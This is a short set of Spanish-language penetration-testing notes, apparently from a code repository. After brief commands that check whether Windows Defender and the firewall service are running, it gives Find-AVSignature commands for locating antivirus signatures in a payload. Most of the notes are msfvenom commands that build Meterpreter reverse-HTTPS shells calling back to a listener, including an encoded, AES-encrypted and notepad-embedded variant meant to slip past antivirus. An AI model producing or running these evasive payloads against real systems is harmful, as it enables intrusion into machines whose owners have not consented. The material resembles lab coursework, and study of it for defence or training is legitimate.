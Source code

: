 #### Windows Defender
##### Verificar que se esta ejecutando
```
powershell -c "Get-Service -Name windefend"
sc query windefend
```
 
 ##### Verificar proteccion de firewall
```
powershell -c "Get-Service -Name mpssvc"
sc query mpssvc
```

----

Instalacion de AV avira y ClamAV
Modulo Find-AVSignature.ps1

#### Localización de firmas en archivos
```
Find-AVSignature -StartByte 0 -EndByte max -Interval 10000 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest1 -Verbose -Force
Find-AVSignature -StartByte 18000 -EndByte 19000 -Interval 100 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest3 -Verbose -Force
Find-AVSignature -StartByte 18800 -EndByte 18900 -Interval 10 -Path C:\Tools\met.exe -OutPath C:\Tools\avtest4 -Verbose -Force
```

#### Metasploit encoders
```
msfvenom --list encoders
sudo msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.100.9 LPORT=443 -e x86/shikata_ga_nai -f exe -o met.exe
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.100.9 LPORT=443 -f exe -o /var/www/html/met64.exe
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.100.9 LPORT=443 -e x64/zutto_dekiru -f exe -o met64_zutto.exe
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.100.9 LPORT=443 -e x64/zutto_dekiru -x /home/kali/notepad.exe -f exe -o met64_notepad.exe
```

#### Cifradores Metasploit
```
msfvenom --list encrypt
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 --encrypt aes256 --encrypt-key fdgdgj93jf43uj983uf498f43 -f exe -o met64_aes.exe
```
